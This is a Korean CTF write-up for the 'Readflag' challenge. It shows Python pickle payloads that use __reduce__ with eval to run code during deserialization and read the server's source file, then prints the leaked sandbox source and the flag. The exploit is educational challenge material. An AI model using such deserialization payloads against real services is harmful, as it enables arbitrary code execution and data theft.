 # Readflag (100 pts.)

![mic](./readflag.png)

먼저 문제에서 준 파일들을 살펴보자

### send.sh

```bash
#!/bin/bash
python dump.py | nc 0 55402
```

### dump.py

```python
from pickle import dumps

print dumps([1, 2, 3])+'#'
```

음.. `dump.py`의 결과물을 서버로 한번 전송해보기로 했다.

```bash
~/D/h/C/S/readFlag ❯❯❯ nc readflag.eatpwnnosleep.com 55402
(lp0
I1
aI2
aI3
a.#
Your inp is [1, 2, 3]
Your inp must be a list which sum of elements is 10
Try again :P
```

결론 : `pickle`의 `dumps`를 한걸 보내주면 그걸 `loads`하는 문제.

`pickle`을 `loads`하는 과정에서 임의로 코드를 실행할 수 있는 점을 이용하면 됐다.

현재 실행되고 있는 python 파일의 이름을 알아내고 그 소스를 읽어오면 된다.

### Exploit
파일 이름 읽어오기

```python
import pickle

class payload(object):
    def __reduce__(self):
       return (eval, ("sys.argv[0]", )) # test.py

print pickle.dumps(payload()) + '#'
```

소스 읽어오기

```python
import pickle

class payload(object):
    def __reduce__(self):
       return (eval, ("open('test.py').read()", ))

print pickle.dumps(payload()) + '#'
```

결과 :

```python
from pickle import loads
import sys
from os import chroot, chdir, setresgid, setresuid
from seccomp import *

UID = 65535

f = SyscallFilter(defaction=KILL)
f.add_rule(ALLOW, "open")
f.add_rule(ALLOW, "read")
f.add_rule(ALLOW, "write", Arg(0, EQ, 1))
f.add_rule(ALLOW, "write", Arg(0, EQ, 2))
f.add_rule(ALLOW, "close")
f.add_rule(ALLOW, "ioctl")
f.add_rule(ALLOW, "stat")
f.add_rule(ALLOW, "fstat")
f.add_rule(ALLOW, "lseek")
f.add_rule(ALLOW, "kill")
f.add_rule(ALLOW, "brk")
f.add_rule(ALLOW, "rt_sigaction")
f.add_rule(ALLOW, "exit_group")

setresgid(UID, UID, UID)
setresuid(UID, UID, UID)

f.load()

C4n_y0u_r34d_7h15 = 'SCTF{3a5y_e4zy_p1ckl1ng}'

filtering = ['__dict__']

inp = ''
while True:
    one_byte = sys.stdin.read(1)
    if one_byte == '#':
        break
    inp += one_byte

if len(inp) > 60:
    print 'too long'
    exit()

if any(item in inp for item in filtering):
    print 'filtered'
    exit()

inp = loads(inp)
print 'Your inp is {}'.format(inp)

if not isinstance(inp, list) or sum(inp) != 10:
    print 'Your inp must be a list which sum of elements is 10'
    print 'Try again :P'
else:
    print 'Good Job!'
    print 'Now you are a python expert!'
```


### Flag : SCTF{3a5y_e4zy_p1ckl1ng}
